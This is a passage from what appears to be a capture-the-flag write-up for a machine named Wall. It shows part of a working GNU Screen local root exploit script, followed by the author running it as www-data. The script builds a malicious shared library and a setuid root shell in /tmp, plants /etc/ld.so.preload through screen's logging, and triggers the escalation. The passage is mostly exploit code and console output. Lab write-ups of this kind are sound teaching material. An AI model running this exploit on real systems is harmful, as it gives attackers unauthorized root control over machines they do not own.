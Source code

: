 ```console
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```
So we just need to get this over to the box and run it, and hopefully we get root:

```console
www-data@Wall:/usr/local/centreon/www$ ./screen.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’; did you mean ‘chroot’? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’; did you mean ‘setbuf’? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
```